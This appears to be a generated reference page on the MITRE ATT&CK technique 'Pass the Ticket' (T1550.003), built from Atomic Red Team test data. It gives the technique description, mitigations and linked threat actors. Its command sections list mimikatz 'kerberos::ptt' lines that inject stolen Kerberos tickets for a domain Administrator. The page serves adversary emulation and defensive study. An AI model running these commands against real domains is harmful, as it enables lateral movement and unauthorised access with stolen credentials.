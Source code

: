 
# Pass the Ticket

## Description

### MITRE Description

> Adversaries may “pass the ticket” using stolen Kerberos tickets to move laterally within an environment, bypassing normal system access controls. Pass the ticket (PtT) is a method of authenticating to a system using Kerberos tickets without having access to an account's password. Kerberos authentication can be used as the first step to lateral movement to a remote system.

In this technique, valid Kerberos tickets for [Valid Accounts](https://attack.mitre.org/techniques/T1078) are captured by [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). A user's service tickets or ticket granting ticket (TGT) may be obtained, depending on the level of access. A service ticket allows for access to a particular resource, whereas a TGT can be used to request service tickets from the Ticket Granting Service (TGS) to access any resource the user has privileges to access.(Citation: ADSecurity AD Kerberos Attacks)(Citation: GentilKiwi Pass the Ticket)

[Silver Ticket](https://attack.mitre.org/techniques/T1558/002) can be obtained for services that use Kerberos as an authentication mechanism and are used to generate tickets to access that particular resource and the system that hosts the resource (e.g., SharePoint).(Citation: ADSecurity AD Kerberos Attacks)

[Golden Ticket](https://attack.mitre.org/techniques/T1558/001) can be obtained for the domain using the Key Distribution Service account KRBTGT account NTLM hash, which enables generation of TGTs for any account in Active Directory.(Citation: Campbell 2014)

## Aliases

```

```

## Additional Attributes

* Bypass: ['System Access Controls']
* Effective Permissions: None
* Network: None
* Permissions: None
* Platforms: ['Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1550/003

## Potential Commands

```
mimikatz # kerberos::ptt #{user_name}@atomic.local
mimikatz # kerberos::ptt Administrator@#{domain}
```

## Commands Dataset

```
[{'command': 'mimikatz # kerberos::ptt Administrator@#{domain}\n',
  'name': None,
  'source': 'atomics/T1550.003/T1550.003.yaml'},
 {'command': 'mimikatz # kerberos::ptt #{user_name}@atomic.local\n',
  'name': None,
  'source': 'atomics/T1550.003/T1550.003.yaml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Use Alternate Authentication Material: Pass the Ticket': {'atomic_tests': [{'auto_generated_guid': 'dbf38128-7ba7-4776-bedf-cc2eed432098',
                                                                                                      'description': 'Similar '
                                                                                                                     'to '
                                                                                                                     'PTH, '
                                                                                                                     'but '
                                                                                                                     'attacking '
                                                                                                                     'Kerberos\n',
                                                                                                      'executor': {'command': 'mimikatz '
                                                                                                                              '# '
                                                                                                                              'kerberos::ptt '
                                                                                                                              '#{user_name}@#{domain}\n',
                                                                                                                   'name': 'command_prompt'},
                                                                                                      'input_arguments': {'domain': {'default': 'atomic.local',
                                                                                                                                     'description': 'domain',
                                                                                                                                     'type': 'string'},
                                                                                                                          'user_name': {'default': 'Administrator',
                                                                                                                                        'description': 'username',
                                                                                                                                        'type': 'string'}},
                                                                                                      'name': 'Mimikatz '
                                                                                                              'Kerberos '
                                                                                                              'Ticket '
                                                                                                              'Attack',
                                                                                                      'supported_platforms': ['windows']}],
                                                                                    'attack_technique': 'T1550.003',
                                                                                    'display_name': 'Use '
                                                                                                    'Alternate '
                                                                                                    'Authentication '
                                                                                                    'Material: '
                                                                                                    'Pass '
                                                                                                    'the '
                                                                                                    'Ticket'}}]
```

# Tactics


* [Defense Evasion](../tactics/Defense-Evasion.md)

* [Lateral Movement](../tactics/Lateral-Movement.md)
    

# Mitigations


* [User Account Management](../mitigations/User-Account-Management.md)

* [Privileged Account Management](../mitigations/Privileged-Account-Management.md)
    
* [Active Directory Configuration](../mitigations/Active-Directory-Configuration.md)
    
* [Password Policies](../mitigations/Password-Policies.md)
    

# Actors


* [APT29](../actors/APT29.md)

* [BRONZE BUTLER](../actors/BRONZE-BUTLER.md)
    
* [APT32](../actors/APT32.md)
    
